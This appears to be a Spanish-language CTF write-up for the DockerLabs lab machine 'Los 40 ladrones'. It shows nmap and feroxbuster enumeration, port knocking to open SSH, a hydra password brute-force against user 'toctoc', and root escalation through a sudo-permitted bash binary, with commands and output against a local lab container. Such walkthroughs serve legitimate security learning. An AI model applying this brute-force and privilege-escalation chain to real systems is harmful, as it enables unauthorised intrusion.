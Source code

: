 ```yaml
---
layout: post
title: Los 40 ladrones
date: 2024.07.04
categories: [dockerlabs, ctf, linux, facil]
---
```


![image](/assets/images/los40/lis40.jpg
)
Estamos ante un docker que contiene una distribución Linux. Es de nivel fácil y es de la plataforma [dockerlabs](https://dockerlabs.es).

# Enumeración

Ponemos el docker en marcha con el `auto_deploy.sh` que trae el zip. Cuando termina de cargar nos indica la dirección IP de nuestra víctima, en nuestro caso es `172.17.0.2`. 

Empezamos realizando un escaneo de puertos con `nmap`. Hacemos un escaneo silencioso`-sS`, a todos los puertos `-p-`, que nos de detalles del escaneo `-v`, que no haga ping al host `-Pn`, que no haga resolución de DNS `-n` a nuestra máquina victima `172.17.0.2`:

```bash
sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
80/tcp open  http
```

Vemos que solo tiene el puerto **80** abierto. Vamos a realizar otro escaneo con `nmap` pero esta vez para detectar la versión del servicio que este corriendo, `-sV`, y para ejecutar los scripts por defecto para detectar vulnerabilidades, `-sC`:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
```

Vemos que la web es una página por defecto de la instalación de apache. Buscamos directorios y ficheros en el servidor con **feroxbuster**. Buscamos las extensiones **php**, **html** y **txt**:

```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -r -d 2 -x php,html,txt
200      GET      367l      977w    10792c http://172.17.0.2/index.html
200      GET       22l      105w     5952c http://172.17.0.2/icons/ubuntu-logo.png
200      GET      367l      977w    10792c http://172.17.0.2/200      GET        3l       20w      111c http://172.17.0.2/qdefense.txt
```

Encontramos un fichero llamado **qdefense.txt**. Lo descargamos y leemos su contenido:

```bash
curl http://172.17.0.2/qdefense.txt
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

De el fichero obtenemos que hay un user llamado **toctoc** y una secuencia de números que puede ser una secuencia de **Port Knocking.**  El port knocking es un mecanismo para abrir puertos externamente en un firewall mediante una secuencia preestablecida de intentos de conexión a puertos que se encuentran cerrados. Una vez que el firewall recibe una secuencia de conexión correcta, sus reglas son modificadas para permitir al host que realizó los intentos conectarse a un puerto específico. 

Para instalar en kali el comando knock realizamos lo siguiente: `sudo apt update && sudo apt install -y knockd`

# Intrusión

Después golpeamos los puertos en la secuencia que hemos visto:

```bash
knock -v 172.17.0.2 7000 8000 9000
hitting tcp 172.17.0.2:7000
hitting tcp 172.17.0.2:8000
hitting tcp 172.17.0.2:9000
```

Realizamos un nuevo escaneo de puertos:

```bash
sudo nmap -sS -p- -Pn -n -v 172.17.0.2
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora ya tenemos el puerto **22** abierto. Como tenemos un user del sistema vamos a probar a buscar la contraseña de dicho usuario con **hydra**:

```bash
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt -t 16 -VIf ssh://172.17.0.2
...
826 of 14344401 [child 12] (0/2)
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
[STATUS] attack finished for 172.17.0.2 (valid pair found)
```

Nos conectamos con la password recién encontrada: 

```bash
ssh toctoc@172.17.0.2                 
toctoc@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)
```

# Escalada de privilegios

Vemos si el usuario toctoc puede ejecutar algún comando como **root**:

```bash
toctoc@50a589993c7e:~$ sudo -l
Matching Defaults entries for toctoc on 50a589993c7e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User toctoc may run the following commands on 50a589993c7e:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
toctoc@50a589993c7e:~$
```

Puede ejecutar /opt/bash como root. Como sabemos ejecutando `/opt/bash -p` podemos obtener acceso como **root**:

```bash
toctoc@50a589993c7e:~$ sudo /opt/bash -p
root@50a589993c7e:/home/toctoc# whoami; hostname; date
root
50a589993c7e
Fri Jul  5 08:20:09 +10 2024
```

